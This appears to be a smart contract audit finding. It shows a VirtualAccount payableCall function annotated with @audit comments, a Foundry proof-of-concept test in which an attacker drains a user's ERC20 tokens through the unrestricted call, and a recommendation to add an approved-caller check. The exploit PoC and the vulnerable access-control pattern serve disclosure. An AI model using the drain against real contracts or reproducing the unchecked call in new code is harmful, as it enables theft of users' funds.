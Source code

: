 ```solidity
            // Humanity will be a Type V Kardashev Civilization before this overflows - andreas
            // ~ 10^25 Wei in existence << ~ 10^76 size uint fits in a uint256
            unchecked {
                valAccumulator += val;
            }

            bool success;

            if (isContract(_call.target)) (success, returnData[i]) = _call.target.call{value: val}(_call.callData);//@audit arbitrary call to any target

            if (!success) revert CallFailed();

            unchecked {
                ++i;
            }
        }

        // Finally, make sure the msg.value = SUM(call[0...i].value)
        if (msg.value != valAccumulator) revert CallFailed();//@audit can be pass zero call.val to bypass.
    }
```
As you can see anyone drain any ERC721/ERC20 token held within virtual Accounts using the utility payable function.
POC
```solidity
function testAnyoneCanDrainVirtualAccount() public {
        address bob = address(42);
	//mint bob some token
        underlyingToken.mint(bob, 1 ether);
        address attacker = address(1337);

        virtualAccount = new VirtualAccount(bob, address(0));
        PayableCall memory payCall;
        PayableCall[] memory payCall_ = new PayableCall[](1);

        assertEq(virtualAccount.userAddress(), bob);
        //bob transfers tokens to his virtual account
        vm.prank(bob);
        underlyingToken.transfer(address(virtualAccount), 1 ether);
        
        assertEq(underlyingToken.balanceOf(attacker), 0);
	//Attacker can use payableCall to drain the token
        vm.startPrank(attacker);
        payCall.target = address(underlyingToken);
        payCall.callData = abi.encodeWithSignature("transfer(address,uint256)", attacker, 1 ether);
        payCall.value = uint256(0);
        payCall_[0] = payCall;
        virtualAccount.payableCall(payCall_);
        vm.stopPrank();

        assertEq(underlyingToken.balanceOf(attacker), 1 ether);

    }
```
## Recommendation
Add requiresApprovedCaller to VirtualAccount.PayableCall
